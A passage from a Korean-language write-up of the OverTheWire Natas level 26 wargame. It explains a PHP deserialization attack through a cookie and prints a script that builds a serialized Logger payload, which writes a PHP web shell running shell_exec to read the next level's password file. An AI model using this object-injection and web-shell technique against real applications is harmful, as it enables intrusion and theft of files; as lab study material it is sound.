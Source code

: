 


<br> 
<br>
<br>
정리해서, 공격 시나리오는 아래와 같다.
<br>
<br> 
- 쿠키($drawing)에 직렬화된(serialize()) Logger 객체를 저장하고, 이를 페이지가 로드될 때 역직렬화(unserialize())하여 실행시킴.<br>
- Logger 객체의 __destruct() 메서드를 이용하여 특정 파일에 내용을 기록(fwrite())하는 기능을 악용.<br>
<br>
- logFile 값을 웹에서 접근 가능한 위치로 변경하여 PHP 코드가 실행되도록 설정.<br>
<br>
- 이를 통해 /etc/natas_webpass/natas27 파일의 내용을 웹에서 확인 가능하게 함.<br>
<br> 

 

<br>
<br>
exitMsg에는 natas27의 패스워드를 읽어올 쉘 명령을 넣고, 이걸 Logger 클래스에 넣어서 직렬화 후 base64 인코딩한다.


```php

<?php
 
class Logger{
    private $logFile;
    private $exitMsg;
 
    function __construct(){
        $this->exitMsg= "<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "/var/www/natas/natas26/img/natas26_b1k5u2aa07s4brtmv36o95hpjg.php";
    }
}
 
$logger = new Logger();
echo base64_encode(serialize($logger));
```

<br>
위의 스크립트를 실행시켜 얻은 값은 아래와 같다.

<br>